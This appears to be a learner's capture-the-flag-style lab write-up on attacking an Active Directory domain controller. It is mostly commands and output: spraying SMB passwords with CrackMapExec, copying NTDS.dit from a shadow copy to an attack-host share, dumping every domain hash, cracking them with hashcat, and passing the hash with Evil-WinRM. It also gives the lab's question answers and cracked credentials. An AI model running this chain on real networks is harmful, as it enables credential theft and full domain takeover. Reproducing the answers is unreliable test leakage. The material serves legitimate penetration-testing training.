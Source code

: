 
When a Windows system joins a domain, it will send all authentication requests to the DC before allowing a user to log on. SAM authentication is still possible by specifying the hostname followed by the username: `WS01/Username`

### CrackMapExec AD Dictionary Attacks

Use this [tool](https://github.com/urbanadventurer/username-anarchy) to generate potential usernames against a list of known users

###### Username Anarchy Example Usage
```go
./username-anarchy -i /home/ltnbob/names.txt 
```

###### Launching CrackMapExec

Using the name(s) found we then use a wordlist of known passwords to attack SMB

```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

If authentication is successful, we will attempt to capture the NTDS.dit file from the DC

### Capturing NTDS.dit

>[! Note]  
>NT Directory Services . directory information tree
> Directory service used to find and organize network resources.
> Stored at the below location:
>>	%systemroot%/ntds
> It is the primary database file associated with AD and contains all domain usernames, password hashes, etc.

#### Connecting to a Domain Controller via Evil-WinRM

> [!hint] Connect with the bwilliamson credentials
```go
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```


Once on the box check for privileges such as local admin rights etc. This is important because to copy the NTDS.dit file, you will need local admin or Domain Admin rights:
```go
net localgroup
```

From the user output, this user has domain admin and admin rights. 

#### Creating a shadow copy of C:

>[! hint]
> - Use vssadmin to create a volume shadow copy of the C: drive
> - NTDS is stored on the C: drive by default, but destination may be different

```go
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```


#### Copying NTDS.dit from the VSS

Copy the NTDS.dit file from the shadow copy of C: to another location on the drive:
```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

>[! hint ] Create Share on Attack Host
> To move the NTDS.dit file, use the [[Attacking SAM#Syntax for smbserver.py]] technique

#### Transferring NTDS.dit to Attack Host

```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### CrackMapExec One-liner

The below will execute all steps from above:
```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Create a file containing all the hashes to crack or do it individually

```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### PtH via Evil-WinRM

We could have  PtH with evil-winrm
```go
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


## Questions

1) What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.*** )
```go
NTDS.dit
```

2) Submit the NT hash associated with the Administrator user from the example output in the section reading.
```go
64f12cddaa88057e06a81b54e73b949b
```

3) On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)
```go
jmarston:P@ssword!
```

Create Username list
```go
John Marston
Carol Johnson
Jennifer Stapleton
```

Run this list against username-anarchy:
```go
username-anarchy -i usernames.txt
```

Get the username:
>[! hint] 
>Remember, firstinitiallastname is a common username!

###### Credentials
```
jmarston
```

```
P@ssword!
```

Use crackmapexec to brute force the username against a list of passwords
```go
crackmapexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt
```

4) Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)

RDP into the windows machine using the credentials found in the previous question

>[! important] Had to reset the box in order for evil-winrm to establish a connection, hence the IP change

```go
evil-winrm -i 10.129.253.12  -u jmarston -p 'P@ssword!'
```

>[! Error] For some reason evil-winrm can't establish the connection

```go
crackmapexec smb 10.129.253.12 -u jmarston -p 'P@ssword!' --ntds
```

Results below:
```go
SMB         10.129.253.12   445    ILF-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)
SMB         10.129.253.12   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
SMB         10.129.253.12   445    ILF-DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.253.12   445    ILF-DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
SMB         10.129.253.12   445    ILF-DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.253.12   445    ILF-DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
SMB         10.129.253.12   445    ILF-DC01         ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:1974751cfe975f2d7a384bee499f25b0:::
SMB         10.129.253.12   445    ILF-DC01         LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
SMB         10.129.253.12   445    ILF-DC01         [+] Dumped 9 NTDS hashes to /home/dan/.cme/logs/ILF-DC01_10.129.253.12_2025-05-09_204713.ntds of which 7 were added to the database
```

The NT has for jstapleton
```go
92fd67fd2f49d0e83744aa82363f021b
```

Crack the hash via hashcat

```go
hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt --show
```

Cracked Password:
```go
Winter2008
```